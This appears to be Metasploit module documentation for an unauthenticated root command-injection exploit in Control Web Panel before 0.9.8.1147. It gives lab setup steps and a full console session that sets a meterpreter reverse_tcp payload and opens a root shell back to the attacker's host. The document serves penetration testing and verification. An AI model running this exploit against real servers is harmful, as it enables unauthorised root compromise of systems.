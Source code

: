 ## Vulnerable Application

Control Web Panel versions < 0.9.8.1147 are vulnerable to unauthenticated OS command injection. Successful
exploitation results in code execution as the root user. The results of the command are not contained
within the HTTP response and the request will block while the command is running.

## Verification Steps
Example steps in this format (is also in the PR):

1. Start with a fresh instance of CentOS 7 x64 and run the following commands, modified from the original:
   1. `yum -y install wget`
   2. `yum -y update`
   3. reboot
   4. `cd /usr/local/src`
   5. `wget https://centos-webpanel.com/cwp-el7-latest`
   6. `sed -i 's/0\.9\.8\.[0-9]\+/0.9.8.1146/g' cwp-el7-latest`
   7. `sed -i 's/^\(sh \/scripts\/update_cwp\)/# \1/g' cwp-el7-latest`
   8. `sh cwp-el7-latest`
   9. `sed -i '1i exit 0' /usr/local/cwpsrv/htdocs/resources/scripts/update_cwp`
2. Start Metasploit
3. Run: `control_web_panel_login_cmd_exec`
4. Set RHOST and LHOST
5. Run the exploit, see that a session is opened

Check the version with `grep webpanel_version /usr/local/cwpsrv/htdocs/resources/admin/include/version.php`

## Options

## Scenarios

### CWP Version 0.9.8.1146 on CentOS 7

```
msf > use exploit/linux/http/control_web_panel_login_cmd_exec
[*] No payload configured, defaulting to cmd/unix/python/meterpreter/reverse_tcp
msf exploit(linux/http/control_web_panel_login_cmd_exec) > set RHOSTS 192.168.159.9
RHOSTS => 192.168.159.9
msf exploit(linux/http/control_web_panel_login_cmd_exec) > set TARGET Unix\ Command
TARGET => Unix Command
msf exploit(linux/http/control_web_panel_login_cmd_exec) > set PAYLOAD cmd/unix/python/meterpreter/reverse_tcp
PAYLOAD => cmd/unix/python/meterpreter/reverse_tcp
msf exploit(linux/http/control_web_panel_login_cmd_exec) > set LHOST 192.168.159.128
LHOST => 192.168.159.128
msf exploit(linux/http/control_web_panel_login_cmd_exec) > check
[*] 192.168.159.9:2031 - The target appears to be vulnerable. Successfully tested command injection.
msf exploit(linux/http/control_web_panel_login_cmd_exec) > exploit

[*] Started reverse TCP handler on 192.168.159.128:4444 
[*] Running automatic check ("set AutoCheck false" to disable)
[+] The target appears to be vulnerable. Successfully tested command injection.
[*] Executing Unix Command for cmd/unix/python/meterpreter/reverse_tcp
[*] Sending stage (24380 bytes) to 192.168.159.9
[*] Meterpreter session 1 opened (192.168.159.128:4444 -> 192.168.159.9:36154) at 2023-01-19 16:05:42 -0500

meterpreter > getuid
Server username: root
meterpreter > sysinfo
Computer     : localhost.localdomain
OS           : Linux 3.10.0-1160.81.1.el7.x86_64 #1 SMP Fri Dec 16 17:29:43 UTC 2022
Architecture : x64
Meterpreter  : python/linux
meterpreter > 
```
